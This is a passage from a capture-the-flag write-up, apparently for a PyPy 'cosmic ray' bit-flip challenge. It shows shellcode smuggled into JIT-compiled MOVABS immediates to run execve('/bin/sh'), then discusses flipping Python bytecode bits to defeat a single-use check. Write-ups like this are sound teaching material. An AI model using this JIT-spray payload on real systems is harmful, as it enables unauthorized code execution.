 ```none
                            jmp short $+0x63
ADD 0x61eb9090e6894857  ->  push rdi
                            mov rsi, rsp                rsi = {"/bin/sh", NULL}
                            jmp short $+0x63
ADD 0x61eb3bb0c031d231  ->  xor edx, edx                rdx = NULL
                            xor eax, eax
                            mov al, 0x3b                rax = __NR_execve
                            jmp short $+0x63
ADD 0x61eb90909090050f  ->  syscall
REPEAT 10000
LIST
```

The first instruction is changed from `movabs r11, 0x01010101011ceb90` to
`rex.WB mov r11b, 0x90; jmp short $+0x1e`, which starts the whole thing. The
only quirk about this solution is that after a few MOVABS instructions PyPy
inserts additional checks in the JITed code, causing the offset between
subsequent MOVABS to change. There is also a big gap in the middle where I have
to waste an entire immediate to fit a JMP off32 (5 bytes). In any case, no big
deal.

### Alternate Solution: Altering Python Bytecode

As we all know Python is an interpreted language with an intermediate bytecode
representation that is executed by the interpreter virtual machine. Instead of
focusing on what happens after the PyPy JIT kicks in, we could also alter the
Python bytecode itself. Assuming that the bytecode for script functions is
stored in one of the memory areas we can modify, and assuming that its offset is
fixed (or at least stable enough), flipping a bit to modify the bytecode can
drastically modify the script's behavior.

There is no obvious way to use a single bit flip to obtain arbitrary [byte]code
execution, let alone re-use some part of existing bytecode to open, read and
print the contents of an arbitrary file. If we want to modify bytecode we will
have to do so to bypass the single cosmic ray limit, and then use more cosmic
rays to edit existing bytecode at will.

If we take a look at the bytecode for the `cosmic_ray()` function using
[`dis.dis()`][py-dis-dis] we can see a few interesting spots where flipping a
bit would result in bypassing the global variable check, allowing infinite
"cosmic rays" to hit. We can also access the raw bytecode as a `bytes` object
via `cosmic_ray.__code__.co_code` to check actual opcodes and arguments.

Some interestig opcodes to consider for the bit flip are right at the start and
towards the end of the function:

```none
0    LOAD_GLOBAL         0 (COSMIC_RAY_HIT)
2    POP_JUMP_IF_FALSE   8 (to 16)
...
324  LOAD_CONST         22 (True)
326  STORE_GLOBAL        0 (COSMIC_RAY_HIT)
...
```


[ctrl-space]: https://ctrl-space.gg/
[pypy]: https://www.pypy.org
[pypy-jit-movabs]: https://github.com/pypy/pypy/blob/76657ba47f6d48c7db77615d3a26bd5029f8b05a/rpython/jit/backend/x86/rx86.py#L886
[py-dis-dis]: https://docs.python.org/3/library/dis.html#dis.dis